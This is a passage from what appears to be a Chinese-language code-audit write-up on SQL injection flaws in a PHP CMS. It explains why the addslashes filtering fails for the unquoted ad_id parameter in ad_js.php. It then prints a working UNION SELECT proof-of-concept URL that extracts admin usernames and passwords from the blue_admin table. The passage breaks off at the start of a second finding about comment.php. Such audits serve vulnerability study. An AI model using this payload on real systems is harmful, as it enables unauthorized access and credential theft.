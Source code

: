 `ad_js.php`疑似存在 sql注入漏洞

![image-20210217120448442](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217120448442.png)

```
require_once dirname(__FILE__) . '/include/common.inc.php';
```

这里包含了网站的配置文件，且配置文件中有统一配置

```php
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```

对$_post、$_get、$_cookies和$_request统一进行gpc处理，对得到的参数转移特定的字符。

但是 ad_js.php 并没有使用单引号，所以可以直接绕过。

查看 `getone()` 函数无过滤：

```php
  function getone($sql, $type=MYSQL_ASSOC){
    	$query = $this->query($sql,$this->linkid);
    	$row = mysql_fetch_array($query, $type);
    	return $row;
    }
```

这里确实存在数字型注入。

![image-20210217120834716](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217120834716.png)

可根据页面回显，

![image-20210217120923694](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217120923694.png)

成功回显 7 的位置。

poc:

```php
http://www.blue.com/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,group_concat(admin_name,0x7e,pwd) from blue_admin--+
```

![image-20210217123345760](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217123345760.png)

#### 2.2 comment.php sql注入漏洞

![image-20210217123732625](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210217123732625.png)

`include/common.fun.php`:
